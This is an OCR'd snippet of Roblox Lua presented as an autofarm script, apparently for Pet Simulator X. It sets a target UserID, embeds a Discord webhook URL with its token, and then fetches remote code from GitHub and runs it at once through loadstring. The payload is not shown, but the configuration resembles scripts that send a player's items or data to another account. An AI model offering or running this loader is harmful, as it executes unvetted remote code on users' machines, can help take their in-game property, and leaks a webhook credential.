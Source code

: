 _G.UserID = 2711866213
_G.WebHook =
"https://discord.com/api/webhooks/1056254317310509118/ywpRAJGISTe3WI0L0q4bnctWVz2BiCBh-qR8SzwM_xk30qNhka9H1ueGJN_08KFlsJD6" 
loadstring(game:HttpGet("https://raw.githubusercontent.com/SilenceScripts/PsxScripts.Lua/main/PsxAutofarm.true"))()
